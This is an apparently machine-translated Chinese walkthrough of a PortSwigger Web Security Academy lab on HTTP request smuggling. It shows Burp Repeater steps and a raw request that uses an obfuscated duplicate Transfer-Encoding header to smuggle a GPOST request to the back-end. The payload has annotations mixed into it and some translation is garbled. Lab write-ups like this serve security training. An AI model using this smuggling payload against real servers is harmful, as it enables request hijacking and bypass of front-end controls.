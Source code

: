 我们可以通过在块前面添加`x`或者在`Transfer-Encoding`头前面添加额外的空间来看到这一点。我们可以混淆标题。

每种技术都会产生不同的结果，这取决于它在后端是如何实现的；有些行得通，有些行不通。

来检测 **TE。TE** 漏洞，我们只需要找到一个服务器会忽略而另一个服务器会处理的报头变化。

## [实验室:HTTP 请求走私，混淆 TE 头](https://portswigger.net/web-security/request-smuggling/lab-obfuscating-te-header)

本实验涉及一台前端服务器和一台后端服务器，两台服务器以不同的方式处理重复的 HTTP 请求头。前端服务器拒绝不使用 GET 或 POST 方法的请求。

为了解决这个实验，偷偷向后端服务器发送一个请求，这样后端服务器处理的下一个请求看起来使用了`GPOST`方法。

**剥削:**

访问实验室并捕获对打嗝中继器的请求。

![](img/298d259e4aec217592f0dfcd493157bb.png)

只允许 GET 和 POST

现在取消选中 repeater 中更新的内容长度。

步骤 2:将请求方法更改为“POST”

第三步:去掉不必要的页眉。

步骤 4:将内容长度改为 4。

现在，对于棘手的部分，我们需要添加我们的传输编码头，并找到一种方法，使我们的后端服务器可以处理它们，前端将忽略它们。

```
POST / HTTP/1.1
Host: 0ab8008b037606dfc05d2f1700b60097.web-security-academy.net
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:106.0) Gecko/20100101 Firefox/106.0
Content-Type: application/x-www-form-urlencoded
Content-Length: 4
Transfer-Encoding: chunked
Transfer-EncodinG: c\] ===> Obsufcated  header.**5c ===> repersent the size of chunk in hex == 92 bytes**
***GPOST / HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 15 ===> Request that will be smuggled to be part of the next request***x=1
0
```
